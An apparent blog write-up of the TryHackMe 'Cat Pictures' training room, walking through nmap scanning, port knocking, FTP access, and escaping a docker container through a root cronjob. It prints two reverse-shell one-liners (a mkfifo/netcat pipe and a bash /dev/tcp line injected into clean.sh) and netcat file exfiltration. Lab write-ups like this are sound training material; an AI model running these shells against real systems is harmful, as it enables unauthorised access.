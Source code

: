 ```yaml
---
title: "TryHackMe - Cat Pictures"
author: Nasrallah
description: ""
date: 2022-11-17 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, docker, knocking, cronjob, ftp, reverse-shell]
img_path: /assets/img/tryhackme/catpictures
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Cat Pictures](https://tryhackme.com/room/catpictures) from [TryHackMe](https://tryhackme.com). In this machine, we get to use a technique called `port knocking` that would make a port open automatically. We find a password of one service in the ports we open and use it to get foothold. Then we exploit a cronjob to escape a docker container.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.46.77
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
Nmap scan report for 10.10.187.26                                             
Host is up (0.081s latency).                                                  
                                                                              
PORT     STATE    SERVICE      VERSION                                        
21/tcp   filtered ftp                                                         
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                
|   2048 37436480d35a746281b7806b1a23d84a (RSA)                           
|   256 53c682efd27733efc13d9c1513540eb2 (ECDSA)                          
|_  256 ba97c323d4f2cc082ce12b3006189541 (ED25519)                        
4420/tcp open     nvm-express?                                                
| fingerprint-strings:                                                        
|   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest:  
|     INTERNAL SHELL SERVICE                                                  
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c                                                                  
|     Please enter password:                                                  
|     Invalid password...                                                     
|     Connection Closed                                                       
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE                                                                                                                                 
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:         

8080/tcp open     http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We found 3 open ports, 22 running OpenSSH and 8080 running Apache http web server. We also found port 21 filtered which is the default port for ftp.

## Web

Let's go to the web page.

![](1.png)

The web server uses `phpbb` which is a free and open source forum software.

We can find one post that hints for a technique.

![](2.png)

## Port knocking

Port-knocking the a obfuscation-as-security technique. It basically means that after knocking on ports in a specific sequence a certain port will open automatically.

We can do that using `knock`, if you don't have it, install it with `apt install knockd`.

![](3.png)

After running it a couple of times, port 21 should be open. Let's connect to it as anonymous.

![](4.png)

We managed to connect to the ftp server and find a note.

The note contains the password of port 4420, let's connect to that port with `nc 10.10.10.10. 4420`

![](5.png)

We got a shell

# **Foothold**

I setup a listener and run the following command to get a reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9000 >/tmp/f
```

![](6.png)

After checking the home directory, we find an executable inside `catlover`'s home directory, when we run it, we get prompt for a password.

```terminal
I have no name!@cat-pictures:/home/catlover# ./runme 
./runme
Please enter yout password: password
Access Denied
I have no name!@cat-pictures:/home/catlover#
```

I tried the previous password but didn't work. Let's copy the file to our machine using netcat.

```terminal
┌──(sirius㉿kali)-[~/CTF/THM/catpics]
└─$ nc -lvnp 1234 > runme 
```

```terminal
I have no name!@cat-pictures:/home/catlover# nc 10.10.10.10 1234 < ./runme

```

We check the file for human readable characters with `strings`, and we find the password.

![](7.png)

Let's run the file again.

```terminal
I have no name!@cat-pictures:/home/catlover# ./runme
./runme
Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued! 
I have no name!@cat-pictures:/home/catlover#
```

After a bit, we see an ssh private key in catlover's home directory.

![](8.png)

Let's copy that to our machine, give it the right permissions and connect with it.

![](9.png)

# **Privilege Escalation**

We can clearly see that we're in a docker container because of the name of the host and the docker file in root directory.

![](10.png)

Checking the different file on the system we come across a potential vector for escaping the docker container.

![](11.png)

The `clean.sh` file might be a cronjob running outside the container, so let's test it by adding the following reverse shell to it and setting up a listener.

```bash
bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

![](12.png)

Great! We got a shell as root, couldn't been better.


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

https://sushant747.gitbooks.io/total-oscp-guide/content/port_knocking.html